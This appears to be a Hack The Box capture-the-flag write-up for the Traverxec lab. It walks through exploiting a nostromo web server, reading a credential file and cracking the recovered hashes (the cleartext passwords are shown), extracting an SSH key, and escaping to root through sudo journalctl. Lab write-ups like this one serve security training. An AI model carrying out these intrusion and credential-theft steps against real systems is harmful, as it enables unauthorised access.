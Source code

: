 ```yaml
---
layout: PostSimple
date: 2020-04-11
title:     "Hack The Box - Traverxec"
tags: ['linux','easy','john','sudo']
layout: post
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/1.png)

We are going to pwn Traverxec by jkr from Hack The Box. Getting User shell is fun and by using GTFOBins correctly we can get Root easily.


Link : <https://www.hackthebox.eu/home/machines/profile/217>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

Looks like an normal webpage and There’s a contact form at the bottom of the page, I send some queries but it’s not doing anything. Also the nmap reveals its ``nostromo 1.9.6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/2.png)

## Method 1 :

Found an exploit in metasploit 

> https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec

So Lets fire up the metasploit and try to get the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/3.png)

I got ``www--data``

## Method 2 (Without Metasploit)

> https://www.exploit-db.com/exploits/47837

```Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/19.png)

Once I get into the machine I can't move to anyother dir so I tried to get a proper shell first.
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ cd /var
cd /var
www-data@traverxec:/var$ 
```

While checking ``nostromo`` conf files found that ``.htpasswd`` are located in same dir.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/5.png)

It gives me user ``david`` hash.<br/>
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

And I cracked it with john <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/6.1.png) ``Nowonly4me``<br/>

But I cant ``su david`` with that password. I can't access ``david`` home dir too.<br/>
```
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ 
```
So I started checking anything else in ``nhttpd.conf`` and noted.

```
# HOMEDIRS [OPTIONAL]

homedirs			/home
homedirs_public		public_www
```

So I googled about ``nhttpd.conf``

>https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/7.png)

>http://10.10.10.165/~david/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/8.png)<br/>
And that Document tell us that we can view them in the home directory as well as via HTTP.<br/>
We know that ``homedirs_public`` is ``public_www`` So I tried to view them in shell.

```
www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/var/nostromo/conf$ ls ~david
ls ~david
ls: cannot open directory '/home/david': Permission denied

www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/usr/bin$ ls ~david/public_www/protected-file-area
ls ~david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```
There is Backup-SSH file, Lets download it to our machine using netcat.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/20.png)

## Another Method to download the SSH backup file:

We know there is ``protected-file-area`` I tried to view them on my webpage.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/9.png)
`` david : Nowonly4me `` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/10.png)

Downloaded that file and extracted on my machine.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/11.png)
We got ssh private key.<br/>

It ask for passphase so I tried to crack with ``john`` again. For that we need use ``ssh2john`` first.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/12.png)

Now we can use this with ``john``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/13.png) `` : hunter``

Got User Flag<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/14.png)

## Privilege Escalation:

There is a script located in the home directory.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/15.png)

While checking it , I found that its running ``journalctl`` as sudo.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.1.png)

>https://gtfobins.github.io/gtfobins/journalctl/

According to this ``journalctl`` we need to shrunk the terminal to two lines and then escaped via less.

So I copied the sudo line <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/17.png)

`` !/bin/sh ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/18.png)

I'm Root !!







